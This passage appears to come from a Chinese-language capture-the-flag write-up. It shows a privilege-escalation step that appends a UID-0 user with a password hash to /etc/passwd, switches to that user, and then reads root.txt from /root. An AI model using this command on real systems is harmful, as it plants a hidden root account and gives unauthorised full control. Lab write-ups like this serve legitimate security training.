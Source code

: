 ```
echo 'rain:$1$7.Wj0zOv$mHTwgjXMJjWzxIvu1FsVZ/:0:0:root:/root:/bin/bash'>>/etc/passwd
su rain
```

![image-20250325141227831](assets/image-20250325141227831.png)



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250325141254988](assets/image-20250325141254988.png)
